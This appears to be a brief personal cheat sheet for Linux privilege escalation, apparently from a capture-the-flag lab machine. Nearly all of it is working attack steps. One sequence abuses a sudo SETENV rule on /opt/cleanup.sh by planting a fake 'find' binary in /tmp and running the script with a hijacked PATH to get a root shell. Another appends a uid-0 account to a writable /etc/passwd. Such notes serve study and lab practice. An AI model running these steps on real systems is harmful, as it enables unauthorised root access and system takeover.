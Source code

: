 # sudo -l 

## Case 1 - 

$sudo -l 

Matching Defaults entries for wizard on pb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on pb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh

-----------------------------------------------------

If we see a SETENV in that case we need to - 

    a. cat the file /opt/cleanup.sh
    b. see which command in that doesnot have an absolute path set
    c. In our case, find didn't have an absolute path set.
    d. make an executable file in /tmp named find.  -- echo "bash" > /tmp/find && chmod +x /tmp/find
    e. Now set the PATH environment variable to /tmp and also execute the cleanup.sh script to priv esc
        
         sudo PATH=/tmp:$PATH /opt/cleanup.sh

-----------------------------------------------------       

if you have read/write access to /etc/passwd you can:
    ```
    openssl passwd whateverPasswordYouWant
    echo "myUser:hashFromAboveCommand:0:0:root:/root:/bin/bash" >> /etc/passwd
    su myUser
    ```
         
   
